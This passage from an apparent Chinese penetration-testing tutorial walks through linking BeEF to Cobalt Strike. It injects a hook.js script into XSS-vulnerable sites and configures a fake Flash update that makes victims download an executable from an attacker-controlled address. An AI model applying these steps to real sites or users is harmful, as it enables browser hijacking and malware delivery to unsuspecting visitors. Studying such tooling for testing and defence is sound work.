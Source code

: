 之后运行cobaltstrike或者armitage(不支持cobaltstrike3.0)，以下以cobaltstrike做示例：

首先加载beef_strike，依此点击cobaltstrike->Scripts->load，选择beef_strike.cna

![Alt text](http://drops.javaweb.org/uploads/images/0596f395f2d24c510b28460f195b366790e60901.jpg)

连接beef，选择Attacks->BeEF Strike->Start->control BeFF service，配置beef路径，然后点击strat开启beef服务，之后连接beef服务，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/1696e02d005682e8b3d311f2b9650c0dde26e751.jpg)

点击Conect之后填入beef服务地址，用户名，密码就可以连接beef了，这里比较重要的是这个key，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/7c7dadf24d927c77a7c96703a9394b1abeaad731.jpg)

复制这个key，在连接处那里点击key，并将此值填入，就可以正常使用了。

![Alt text](http://drops.javaweb.org/uploads/images/b4cbd281f4cf4c81fc646049c02667f60ce025c6.jpg)

只需要将[http://192.168.74.144:3000/hook.js](http://192.168.74.144:3000/hook.js)插入存在xss的网站，或者以任意方式执行该js，beef上面就可以看到主机上线了，尝试访问[http://192.168.74.144:3000/demos/basic.html](http://192.168.74.144:3000/demos/basic.html)测试：

![Alt text](http://drops.javaweb.org/uploads/images/079226324145bcd5976d0fc9276f0b3229a64371.jpg)

选择一个计算机，点击右键，beef，可以看到其基本信息，右键可以看到beef更多的功能：

![Alt text](http://drops.javaweb.org/uploads/images/8dd6cbf628639c80ddbfe20c53d25f3d0ce18ddf.jpg)

比如社会工程学工具里面的fake flash update，点击此按钮之后输出如下参数配置：

```
"payload_uri":"http://192.168.74.144:81/download/test.exe","image":"http://192.168.74.145:3000/demos/adobe_flash_update.png"

```

如下图：

![Alt text](http://drops.javaweb.org/uploads/images/0721a4bd60464dd58d6b20d1cb39c7f890dc7373.jpg)

之后受害者就会看到一个升级信息：

![Alt text](http://drops.javaweb.org/uploads/images/ccdb3ccb99aa5a6fac61599f4147851e109d63ce.jpg)

点击以后就会下载我们指定的exe。

更多的功能在：

![Alt text](http://drops.javaweb.org/uploads/images/24794f485af996710a131080db4bf70a79513e64.jpg)

这里可以设置自动运行的多个命令，有兴趣的小伙伴可以继续进行研究，具体Beef使用详见：[浏览器利用框架BeEF测试](http://drops.wooyun.org/tips/9929)。

0x02 Veil_evasion
=================

* * *
